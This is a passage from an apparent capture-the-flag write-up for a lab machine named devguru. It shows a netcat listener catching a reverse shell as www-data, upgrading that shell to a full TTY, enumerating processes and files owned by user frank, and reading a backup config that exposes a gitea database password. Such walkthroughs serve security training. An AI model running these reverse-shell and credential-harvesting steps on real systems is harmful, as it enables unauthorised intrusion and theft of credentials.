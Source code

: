 We have a reverse shell with www-data privileges and we upgrade it to a full tty shell.

```console
root@kali:~$ nc -vlnp 443
listening on [any] 443 ...
connect to [192.168.179.1] from (UNKNOWN) [192.168.179.166] 54394
bash: cannot set terminal process group (974): Inappropriate ioctl for device
bash: no job control in this shell
www-data@devguru:/var/www/html$ ^Z
zsh: suspended  nc -vlnp 443
root@kali:~$ stty raw -echo;fg
[1]  + continued  nc -vlnp 443

www-data@devguru:/var/www/html$ export TERM=xterm
www-data@devguru:/var/www/html$ stty rows 39 columns 164
```

By listing the processes we can see that gitea is running with frank privileges, the possible way to gain access as frank user.

```console
www-data@devguru:/opt$ ps aux | grep frank
frank      614  4.6 26.0 1442108 128508 ?      Ssl  07:05   0:07 /usr/local/bin/gitea web --config /etc/gitea/app.ini
```

Listing files that belongs to user frank.

```console
www-data@devguru:/opt$ find / -user frank -type f 2>/dev/null | grep -v 'proc\|sys'
/var/backups/app.ini.bak                                                          
/usr/local/bin/gitea
```

Digging into the buckup file, the credentials for the gitea database were found.

```console
www-data@devguru:/opt$ cat /var/backups/app.ini.bak
...
[database]
; Database to use. Either "mysql", "postgres", "mssql" or "sqlite3".
DB_TYPE             = mysql
HOST                = 127.0.0.1:3306
NAME                = gitea
USER                = gitea
; Use PASSWD = `your password` for quoting if you use special characters in the password.
PASSWD              = UfFPTF8C8jjxVF2m
...
```

I logged in via adminer to the gitea database.
